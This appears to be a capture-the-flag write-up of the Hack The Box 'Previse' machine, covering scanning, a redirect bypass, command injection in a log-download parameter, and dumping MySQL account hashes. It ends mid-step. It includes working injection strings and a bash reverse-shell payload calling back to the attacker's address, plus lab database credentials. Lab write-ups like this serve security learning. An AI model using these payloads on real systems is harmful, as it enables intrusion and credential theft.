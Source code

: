 # Previse
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/66cdadd8-4e5d-4b69-847e-30c752492d73)


## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- 10.10.11.104 -sVC --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-13 22:52 PDT
Nmap scan report for 10.10.11.104
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53ed4440116e8bda698579c081f23a12 (RSA)
|   256 bc5420ac1723bb5020f4e16e620f01b5 (ECDSA)
|_  256 33c189ea5973b1788438a421100c91d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Previse Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.77 seconds
```

1. Based from the nmap results, the machine runs a web application and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6bb0b815-8bd3-4226-a432-cb09d1e8e1f5)


2. After ran **dirbuster** shall found several files.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b24922d9-109a-4158-9315-c1ddf4565688)


3. Checking every endpoint with **200** as it status code, turns out **nav.php** should be our interest.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6757eaa8-b94d-41d2-81c0-bb8884bb4ea2)


4. Click the `CREATE ACCOUNT` option shall redirect you to the login page.
5. Interesting! Intercept the request for that option usingh burpsuite shall resulting to another interesting part.

> NOTICED IT DIRECTS US TO ACCOUNT.PHP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ddccfcd2-399c-44ad-b594-2e592b4707a9)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d2229416-c940-4372-97ef-be9d6f062098)


5. The interesting part is at the response tab where it says `ONLY ADMINS SHOULD BE ABLE TO ACCESS THIS PAGE!!`.
6. Reviewing the source code at the response tab, you shall notice that it leaked all the parameter we need to make an account.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8fe0d1cf-1885-4f3f-b0f0-e7f3fd700674)


7. Anyway, accessing the root (/) page, shall redirect us to login.php.
8. This type of thing is related to `Execution After Redirect (EAR) Vulnerability`.
9. To exploit this vulnerability we can turn on `Server Response Interception` in Burp Proxy. This should allows us to pause or intercept the response (tp prevent it redirected to the another page).

> TURNING ON SERVER RESPONSE INTERCEPTION

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6beb4b9c-cd65-4daa-94f8-571b422c8658)


> TRY ACCESSING ROOT AGAIN


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/31dac8fa-62e7-481e-9e07-975dc59e9e8d)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7ea2398c-09d1-4604-855b-25ec1a9ef3c3)


10. Noticed we are also logged in here.
    
#### NOTES: Anyway another method if you did not want to intercept the response, you can simply intercept the request then right click, then choose --> "Response to this request".

11. To access all the page from the navbar option, use the same method as to access the root page.

> accounts.php page

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bcefa70b-b8e1-4fcf-894f-3631d944f7b5)


> files.php page

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a9dc12e3-f3ef-401b-8290-d816f796ddaf)


> status.php page

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7cdfc4ad-c9b8-4c9b-95ac-1f3640bb2073)


> file_logs.php

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/17e2daca-6814-4a50-a112-e60ced6e2834)


> log.php (choosing any file delimiter shall resulting to a blank page).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/19fe0d13-ab35-45bb-a7d8-37da76d25a3c)


12. Found several pages that could be our foothold, but two pages caught my attention fully, the accounts.php page and files.php page.
13. After registered dummy account, we can logged in and see all the pages without burp again.

> CREATING ACCOUNR

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6911fdb2-e6de-40a7-8c3f-b8f50955e0b2)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/78e724e2-b186-43df-9b6a-fe58b580501e)


> LOGGING IN

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c5222cc7-de7e-4da2-81a5-efc41870ffcc)


14. Great! Now let's download the attached .zip file.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4b909a5b-592d-4985-81d0-6b198db27609)


15. Turns out it's the source code!

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5d894d6a-8cc0-4e9d-9bf6-931606989a6b)


16. Reviewing the config.php source shall found a mysql cred.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/878227d9-2b7d-4ebd-b903-0a3dcf3fe69c)


17. But we can't access it, because it's the port is not opened.
18. Long story short, we know that everytime we submit a delimiter it shows us blank page, but this time it downloads a file.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2b243840-a266-4b47-bcc7-19484b88f696)


> RESULT (ALL)

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/73f214a5-b568-4562-a1af-2a4ab156438b)


19. All of them shows the same data.
20. Interesting, reviewing the logs.php source found **command injection** vuln.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b36b357c-8e64-492f-8a35-0bf595ee4a8a)


21. There is no filter! Great, this should be our foothold.
22. Let's capture the request again using burpsuite.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ac00b7bc-fe70-4fa7-b69f-10532ffa2651)


23. To test whether our argument is true or not, we can use bash command to ping our tun0 interface then check it on our local machine.

> COMMAND

```
delim=comma;ping -c 4 10.10.16.23 #

delim=comma;ping%20-c%204%2010.10.16.23%20#
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a733fefc-acc7-4d69-8c10-34afbf6b8b55)


24. Great! It indeed execute our bash command, we can drop our reverse shell now.

> REVSHELL PAYLOAD

```
;bash -c 'bash -i >& /dev/tcp/10.10.16.23/1337 0>&1';

%3Bbash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E16%2E23%2F1337%200%3E%261%27%3B
```

> GOT SHELL

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f13f53f3-40d4-4f98-8175-127e5f966ab9)


25. Sadly we can't get the user flag.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7bb914ec-2b7a-4e47-9fc5-3c58e52e51b8)


26. Let's use the mysql cred we got before.
27. Anyway the shell is not stable, everytime you ran sql syntax, it executes the command then terminate the shell.
28. There's two ways to fix this, make the shell stable or use `-e` flag.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/88726b5b-4513-4bdd-828e-eeb4357bb6b3)


29. Long story short, found creds at --> previse database and accounts table.

```
www-data@previse:/var/www/html$ mysql -h localhost -u root -p'mySQL_p@ssw0rd!:)' previse -e 'show tables;'
<oot -p'mySQL_p@ssw0rd!:)' previse -e 'show tables;'
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_previse
accounts
files
```

```
www-data@previse:/var/www/html$ mysql -h localhost -u root -p'mySQL_p@ssw0rd!:)' previse -e 'select * from accounts;'
<L_p@ssw0rd!:)' previse -e 'select * from accounts;'
mysql: [Warning] Using a password on the command line interface can be insecure.
id      username        password        created_at
1       m4lwhere        $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.        2021-05-27 18:18:36
2       brandy  $1$🧂llol$QU5sYupds4bbeJz3SSAuj0        2023-10-14 07:21:53
www-data@previse:/var/www/html$
```

30. Great! Let's crack the **m4lwhere** password using john.

```
┌──(brandy㉿bread-yolk)-[~]
└─$ hashid $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
Analyzing '$🧂llol.'
[+] Unknown hash
```

31. Stuck for a while, because hashid failed to identify the potential hash algorithm.
32. Reviewing the source code again, 








 
